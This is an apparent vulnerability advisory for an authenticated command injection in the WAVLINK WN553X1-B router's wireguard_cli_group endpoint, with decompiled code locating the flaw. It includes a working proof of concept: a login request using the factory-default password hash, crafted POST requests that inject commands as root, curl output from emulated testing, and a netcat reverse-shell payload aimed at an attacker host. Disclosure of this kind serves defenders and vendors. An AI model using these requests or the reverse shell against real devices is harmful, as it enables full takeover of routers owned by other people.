

# WAVLINK WN553X1-B Router — wireguard_cli_group Command Injection

- Vendor: WAVLINK
- Product: WAVLINK WN553X1-B (Model WN553X3B)
- Firmware Version: V260403_2.0.0 (OpenWrt 21.02, aarch64 / MT7981)
- Vulnerability Type: Authenticated Command Injection (CWE-78)

## Overview

An authenticated command injection vulnerability was identified in the WAVLINK WN553X1-B router. An attacker with a valid session can send a crafted HTTP POST request to achieve arbitrary command execution with root privileges on the target device. The issue can be triggered via the following endpoint:

`POST /protocol.csp?fname=system&opt=wireguard_cli_group&function=set HTTP/1.1`

Successful exploitation requires a valid session token (obtainable via the `opt=login` endpoint; factory-default password is `admin`).

## Vulnerability Details

The vulnerability resides in the `sub_41A748` function of `/bin/ioos` (the `.csp` back-end on 127.0.0.1:81, behind lighttpd). In the `action=add` branch, the user-controlled `group_id` / `group_name` parameters are passed to `snprintf` without any input validation or sanitization, and the resulting strings are forwarded to `system`:



```
system("uci add wgclient groups")
snprintf(buf, 0x100, "uci set wgclient.@groups[-1].group_id='%s'", group_id);
system(buf);   // 0x41AB0C  <- group_id injection point
snprintf(buf, 0x100, "uci set wgclient.@groups[-1].group_name='%s'", group_name);
system(buf);   // 0x41AB30  <- group_name injection point
```

Because the user input is embedded inside single quotes (`'%s'`), a value such as `x';COMMAND;'` breaks out of the quoted string and injects an arbitrary OS command. The ioos service runs as root, so the command executes with root privileges. The actual command executed on the device (captured during testing):

```
sh -c "uci set wgclient.@groups[-1].group_name='x';/usr/bin/id>/tmp/v_wgcg;''"
```

## Proof of Concept

Note: the ioos HTTP parser only processes parameters in the URL query string of POST requests; the session token is passed as the `token` URL parameter (bound to the client IP, 300-second validity).

Step 1 — login (`usrid` = SHA256 of the password, default `admin`):

```http
POST /protocol.csp?fname=system&opt=login&function=set&usrid=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1
Host: <target>
Content-Length: 0
Connection: close

```

Response: `{ ..., "token": "<32 hex chars>", "error": 0 }`

Step 2 — command injection:

```http
POST /protocol.csp?fname=system&opt=wireguard_cli_group&function=set&action=add&group_id=a&group_name=x%27%3B/usr/bin/id%3E/tmp/pwn%3B%27&token=<TOKEN> HTTP/1.1
Host: <target>
Content-Length: 0
Connection: close

```

Response: `{ "opt": "wireguard_cli_group", "fname": "system", "function": "set", "success": 1, "error": 0 }`

The URL-decoded `group_name` payload is `x';/usr/bin/id>/tmp/pwn;'`, and `/tmp/pwn` on the device then contains `uid=0(root) gid=0(root) groups=0(root)`.

A reverse shell payload (busybox nc has no `-e`; nc resides at `/usr/bin/nc`):

```
x';rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc <LHOST> <LPORT> >/tmp/f;'
```

## Impact

An authenticated attacker can execute arbitrary OS commands with **root** privileges, resulting in full compromise of the device. Combined with the factory-default credential `admin` (hardcoded in `/etc/config/winstar`), the authentication barrier is effectively absent on devices where the password was never changed.

## Reproduction Result

Dynamically verified against the firmware emulated with qemu-aarch64 + chroot (lighttpd front-end proxying to ioos):

```
$ curl -X POST "http://<target>/protocol.csp?fname=system&opt=wireguard_cli_group&function=set&action=add&group_id=a&group_name=x%27%3B/usr/bin/id%3E/tmp/v_wgcg%3B%27&token=<TOKEN>"
{ "opt": "wireguard_cli_group", "fname": "system", "function": "set", "success": 1, "error": 0 }

$ cat /tmp/v_wgcg        # on the emulated device
uid=0(root) gid=0(root) groups=0(root)
```
